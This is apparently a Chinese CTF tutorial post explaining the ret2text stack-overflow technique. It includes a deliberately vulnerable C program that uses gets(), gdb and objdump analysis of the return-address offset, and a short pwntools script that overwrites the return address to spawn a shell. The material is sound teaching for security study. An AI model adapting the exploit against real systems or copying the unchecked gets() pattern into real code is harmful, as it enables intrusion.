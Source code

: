 ```yaml
---
title: ret2text攻击技术示例
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


# 什么是ret2text？

ret2text是指return to text，意思就是通过向缓冲区填入过多的数据，导致缓冲区溢出，覆盖了返回地址(return address)，返回到程序某处可以被利用的代码后，达成相应的目的，也就是获取了程序中任意地址处代码执行的能力。

ret2text是最简单的栈溢出漏洞利用技术，不需要太多的技术基础就可以进行利用。

# ret2text示例代码

``` c
//gcc -m32 -fno-stack-protector ret2text.c -o ret2text
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));
    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh"); /* [1] */

}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf); /* [2]  */
    printf("Maybe I will tell you next time !");

    return 0;

}
```

本节示例的漏洞程序也可以从该处下载：[ret2text](http://od7mpc53s.bkt.clouddn.com/ret2text)

# 漏洞分析

main函数里使用了不安全的gets()函数，因为没有对输入字符长度进行检查，所以会导致缓冲区溢出。我们的思路就是输入过长的数据，使buf溢出，覆盖了gets()函数的返回地址，并在返回地址处修改为system("/bin/sh")代码处的地址，这样当main函数返回，程序就会跳转到system("/bin/sh")处获取一个shell，从而完成攻击。

我们用gdb挂起程序，逐步调试。

``` asm
    0x804869b <main+83>:	mov    DWORD PTR [esp],0x804876c
    0x80486a2 <main+90>:	call   0x8048480 <puts@plt>
    0x80486a7 <main+95>:	lea    eax,[esp+0x1c]
=>  0x80486ab <main+99>:	mov    DWORD PTR [esp],eax
    0x80486ae <main+102>:	call   0x8048460 <gets@plt>
    0x80486b3 <main+107>:	mov    DWORD PTR [esp],0x80487a4
    0x80486ba <main+114>:	call   0x8048450 <printf@plt>
    0x80486bf <main+119>:	mov    eax,0x0
```
执行到0x80486a7处，使用eax存储了buf的首地址，之后在0x80486ab处将eax的值压入栈中，这里我们查看eax寄存器的值为*0xffffcd1c*。同时我们观察，此时buf首地址处于栈顶，那我们来查看以下ebp寄存器的值，值为*0xffffcd88*，而ebp再下面即是返回地址，因此我们可以得出从buf首地址到返回地址之间的距离为
``` python
0xffffcd88 - 0xffffcd1c + 0x04 = 0x70
```
同时我们需要查看 *system("/bin/sh")*的地址
``` bash
objdump -d ret2text
```
找到system()调用的代码处

``` asm
804863a:	c7 04 24 63 87 04 08 	movl   $0x8048763,(%esp)
8048641:	e8 4a fe ff ff       	call   8048490 <system@plt>
```
我们只要将返回地址覆盖为*0x804863a*便可获取一个shell

# 攻击代码

``` python
from pwn import *

system_addr = 0x804863a
payload = ''
payload += 'A' * (0xffffcd88 - 0xffffcd1c + 0x04 )
payload += p32(system_addr)

io = process('ret2text')
io.sendline(payload)
io.interactive()
```
